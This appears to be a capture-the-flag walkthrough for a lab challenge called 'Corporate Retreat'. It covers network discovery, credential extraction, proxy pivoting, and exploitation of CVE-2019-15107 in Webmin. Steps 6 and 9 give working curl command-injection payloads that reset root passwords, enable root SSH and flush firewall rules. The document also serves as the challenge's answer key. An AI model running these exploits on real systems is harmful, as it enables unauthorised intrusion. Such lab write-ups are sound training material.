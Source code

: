 # Corporate Retreat

Network discovery, public CVE exploitation, credential abuse, lateral movement.

## How to solve

Contains spoilers!

1. Scan the network range as suggested
2. Access the camera UI at `172.20.0.231` and go to settings
3. Extract the admin password from the source code and log in with it
4. Abuse the shell to map the network (especially the non-public part)
5. Access the admin UI of the non-public-facing gateway - for this, you can extend the transparent proxy script to allow customization of the exposed port and download it to the camera, where you will then run it to proxy `10.3.0.2:10000` to any open port of the camera.
6. Abuse CVE-2019-15107 to set the root password, for example `curl https://localhost:2223/password_change.cgi -d 'user=wheel&pam=&expired=2&old=echo "root:toor"|chpasswd|echo done&new1=wheel&new2=wheel' -k -H 'Referer: https://localhost:2223'`, (where `localhost:2223` is still proxied to `10.3.0.2:10000`)
7. You can now log in into the admin UI with root:toor. Webmin sometimes tends to get stuck loading after login - if it happens, click the cog icon in the left sidebar to unstuck it. In Webmin>Others>Command Shell, you get another root shell, this time on the router - which is in another network now, that interests us.
8. Of course extract the poem the task asks for, from `/app/poem.txt`
9. Discover devices in `10.0.0.0/24` that might help answer the local IP address question, specifically the outbound router (also the default gateway of the current gateway...) at `10.0.0.4`. It is again running something on port 10000 (and also 22). Run the Webmin exploit again, this time also enabling root login through SSH and allowing yourself to SSH in through BigComp's standard public IP address rather than tunneling through 2 other devices, e.g. `curl https://10.0.0.4:10000/password_change.cgi -d 'user=wheel&pam=&expired=2&old=echo%20%22root%3Atoor%22%7Cchpasswd%26%26sed%20-i%20-e%20%22%2F.*PermitRootLogin.*%2Fd%22%20-e%20%22%5C%24a%20PermitRootLogin%20yes%22%20%2Fetc%2Fssh%2Fsshd_config%26%26iptables%20-I%20INPUT%20-j%20ACCEPT%26%26service%20ssh%20restart%26%26echo%20ok&new1=wheel&new2=wheel' -k -H 'Referer: https://10.0.0.4:10000'` (urldecode if illegible)
10. Now SSH directly from hackerlab to `172.20.0.239` and run `cat /var/log/ulog/syslogemu.log |grep 172.20.0.200`: the log file contains ulogd output of iptables' NFLOG chain, logging all outgoing SSH connections, and the IP address is the one used by the cousin during the incursion. You should find the source address of `10.0.1.233`.
11. For the address, there is an unsecured employee record system at `http://10.0.0.8:8000` with a list of employees. Each employee detail (`?page=$employeeId`) then contains associated IP addresses. In our case, `10.0.1.233` is registered with user 88811, who happens to reside at `Langelinie Allé 21`. Importantly, there is also a second IP address registered (`10.0.4.18`).
12. From iptables, we can deduce that there is an HTTP proxy running at `10.0.0.5`, which also exposes the SSH port, and we are let in as root without a password. Now we can read `/var/log/proxy/web-proxy-2025-01-05.log`, which contains a login attempt to `www.bread.forum`.
13. The 2nd level domain is `bread.forum`, so submit that for the baked goods task.
14. The credentials are also logged (but URLencoded): `Vigilante88:M1r0{mayFXwawow1ezzUjVIOutDhKRcZGJblvzDOgBaA4EMmQG09UpfP8i3XQA4YY}`

These instructions of course use a significant amount of shortcuts and knowledge that the attacker would have to spend a lot of effort finding. However, this is simply a short walkthrough, so it makes sense. 

## Notes

Some software is preinstalled on devices for attacker convenience.
This is because `apt` tends to hang more often than not when ran through Webmin.
